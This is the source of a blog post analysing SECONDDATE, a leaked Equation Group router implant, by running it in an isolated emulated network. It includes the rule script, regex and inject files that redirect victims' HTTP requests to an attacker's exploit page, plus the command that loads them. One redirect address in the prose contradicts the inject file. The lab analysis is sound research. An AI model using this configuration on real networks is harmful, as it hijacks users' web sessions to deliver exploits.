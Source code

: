```yaml
---
layout: post
title: SECONDDATE in action
author: Wladimir J. van der Laan
tags: [eqgrp, malware]
categories: [Reverse-engineering]
---
```


Here I've taken the environment from the [BLATSTING Command-and-Control protocol]({{ site.baseurl
}}/2016/09/04/blatsting-command-and-control.html) article and extended it, so that the emulator works as a router
between an internal network with our victim and an external network, a mock version of the internet with just our
attacker and one web server:

<pre>
SimInternet, level 2

                      ╔════════════════════════════╗
                      ║ BLATSTING emulator         ║
╔════════════════╗    ║ ╔════════════════════════╗ ║    ╔════════════════╗  emulated
║ Victim host    ║    ║ ║  Emulated modules      ║ ║    ║ Attacker host  ║  serial
║                ║    ║ ║ ┌─────────┐ ┌────────┐ ║ ║    ║ ┌─────┐┌─────┐ ║  (control)
║ ┌─────────┐    ║    ║ ║ │ second  ◀┄▶ hash   │ ║ ║    ║ │httpd││SD LP│◀━━━━━━━━  
║ │ Browser │    ║    ║ ║ │ date    │ └────────┘ ║ ║    ║ └─────┘└─────┘ ║
║ └─────────┘    ║    ║ ║ │         │ ┌────────┐ ║ ║    ║      ↕         ║
║      ↕         ║    ║ ║ │         ◀┄▶ crypto │ ║ ║    ║ Linux nw. stck ║
║ Linux nw. stck ║    ║ ║ └─────────┘ └────────┘ ║ ║    ╚══════▲═════════╝
╚══════▲═════════╝    ║ ╚════▲════▲══════════════╝ ║           ┃   ╔══════════════════╗
       ┃              ║ ┌────▼──┐ ┆                ║           ┣━━━▶ Web server ACME  ║
       ┃              ║ │ [stub]│ ┆                ║ "outside" ┃   ║ Int. Widgits Ltd ║
       ┃     "inside" ║ │ core  │┌▼───────┐ Emu.nw.║ eth1      ┃   ╚══════════════════╝
       ┃         eth2 ║ └───────┘│ [stub] ◀┄┄┄┄┄┄┄┄▶◀━━━━━━━━━━┛
       ┗━━━━━━━━━━━━━▶◀┄┄┄┄┄┄┄┄┄┄▶ network│ Stck   ║  Eth-over-UDP 
                      ║          └────────┘        ║               
                      ╚════════════════════════════╝
</pre>

This will allow using SECONDDATE as it was intended to be used, to redirect website visitors (but only on the isolated
virtual network). The attacker runs a web server to redirect the victim to, which serves exploit payloads (a FOXACID
server, in Equation Group jargon).

<iframe src="https://showterm.io/252abdc707d56d893210a" width="640" height="420"></iframe>

[Showterm session](https://showterm.io/252abdc707d56d893210a) of the experiment described here.

### Setup: Attacker

We'll (as the attacker) set up the implant with this LP script:

```bash
disable 1
rule 1 --protocol 6 --dstport 80 --nocheckhttp --checkregex --inject --injectfile injectfile_tcp --regexfile regex_tcp
enable 1
```

{: .center}
*tcptest.seconddate: configuration script for setting up SECONDDATE.*

```bash
rule [rulenum] [opts ...]           Sets options for a rule.
                                      where opts is one or more of the following options
                                     (defaults are shown in parentheses):
                                     [--srcaddr addr(0)] [--srcmask mask(0)]
                                     [--dstaddr addr(0)] [--dstmask mask(0)]
                                     [--protocol prot(6/TCP)] [--srcport port(0)] [--dstport port(0)]
                                     [--mininterval(60)] [--maxinjections(5)] [--injectwindow(0)]
                                     [--checkhttp (default) | --nocheckhttp]
                                     [--checkregex (default) | --nocheckregex]
                                         [--inject (default) | --noinject
                                     [--tcpflag (FIN ACK PSH) URG | ACK | PSH | RST | SYN | FIN ]
                                     [--regexfile <filename>] [--injectfile <filename>
```

{: .center}
*SD rule definitions, from SecondDateLp `help`.*

The script does the following:

- `disable 1`: Disable any previous rule 1 (this allows for quick reloading, as live rules cannot be re-configured).
- `rule 1 ...`: Set up rule 1.
  - `--protocol 6`: Match IP protocol 6, [which happens to be
    TCP](https://en.wikipedia.org/wiki/List_of_IP_protocol_numbers). Only TCP or UDP allowed here.
  - `--dstport 80`: Destination port 80, HTTP.
  - `--nocheckhttp`: Don't use the built-in regexp for HTTP, that's no fun. Define our own.
  - `--checkregex`: Check for regex defined in `--regexfile` below.
  - `--inject`: Do packet injections.
  - `--injectfile injectfile_tcp`: Set data to inject on injection.
  - `--regexfile regex_tcp`: Set regexp to match.
- `enable 1`: Make rule 1 live.

It is possible to fine-tune various parameters such as the maximum number of injections, the time within which this has
to happen, the time between injections and so on and so on, but the defaults work fine for sake of this demo.

```bash
^GET / .*
```

{: .center}
*`regex_tcp`: The regular expression to match on TCP packets. This looks for HTTP GET requests to the root, any version.
This can be any valid [PCRE](https://www.debuggex.com/cheatsheet/regex/pcre) regular expression.*

```bash
HTTP/1.1 302 Found
Location: http://192.168.1.1/exploit.html

grazing buzzards
```

{: .center}
*`injectfile_tcp`: This will be injected into the TCP session. A basic HTTP temporary redirect to the evil web server.
`grazing buzzards` is just a 16-byte string that I use for finding the packet in captures.*

Then subsequently load it into the implant by invoking the LP command from the shell and piping in the script:

```bash
$ ./SecondDate-3.1.1.0.SecondDateLp 192.168.1.2 < tcptest.seconddate
```

{: .center}
*Loading the rules, from LP-side serial console.*

### Setup: Victim

The victim is simply using a PC running a browser and is trying to visit a website over HTTP. Luckily with [HSTS
preloading](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security) the latter is happening less and less in
practice. For the sake of being able to record the terminal session they are using the venerable browser `lynx`,
but this will work with any browser.

### The attack

The victim, from IPv4 address `192.168.2.1`, is trying to visit the legitimate web server of ACME Internet Widgits Ltd.
at `192.168.1.100`, through their router (Internet IP `192.168.1.2`). They will be redirected to the attacker's host,
`192.168.1.1`, which hosts an exploit page. To recap:

<pre>
                                                           ╔══════════╗
╔════════════════╗                                         ║ Attacker ║
║ Victim host    ║                                         ╚════▲═════╝
║                ║                  ╔═════════════╗             ┃ 192.168.1.1
║ ┌─────────┐    ║ 192.168.2.1      ║ Compromised ║             ┃  
║ │ Browser │    ◀━━━━━━━━━━━━━━━━━━▶ Router      ◀━━━━━━━━━━━━━┫
║ └─────────┘    ║      192.168.2.2 ╚═════════════╝ 192.168.1.2 ┃
║                ║                                              ┃ 192.168.1.100
║                ║                                 ╔════════════▼═════╗
╚════════════════╝                                 ║ Web server ACME  ║
                                                   ║ Int. Widgits Ltd ║
                                                   ╚══════════════════╝
</pre>

What happens:

- Victim opens `http://192.168.1.100/` in their browser, which opens a connection to the web server of
  ACME Int. Widgits Ltd.

{: .center}
![ACME Internet Widgits Ltd]({{ site.baseurl }}/assets{{ page.id }}/acme.png "ACME Internet Widgits Ltd")

*The website of ACME Internet Widgits Ltd., which has a world-wide monopoly on delivering Schrödinger's boxes by drone. Cat not included.*

- SD, running on the compromised router, triggers on the first content packet of this connection, eats it, and instead injects a packet to redirect
  to the attacker's server. It resets the connection to the original web server with a TCP RST packet.

- Victim is redirected to `http://192.168.1.100/exploit.html`, and will load whatever is on that page. 

{: .center}
![Lazy exploit]({{ site.baseurl }}/assets{{ page.id }}/exploit.png "Lazy exploit")

*The ultimate lazy exploit, just for illustration. Not only does the victim have to adjust their CPU's
instruction pointer manually, they'd have to first finish writing the shellcode. The Equation Group has better ones
available. The target link would in practice point to a browser exploit (usually aimed at a plugin such as Flash), or a
backdoored installer when intercepting a download.*

- Note that when the victim immediately loads the site again they won't get redirected again. The `mininterval` serves
  as a cool-down period.

Packet captures:

- [seconddate_int.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_int.cap) internal network
- [seconddate_ext.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_ext.cap) external network (includes [C&C]({{ site.baseurl }}/2016/09/17/seconddate-cnc.html)
  traffic)

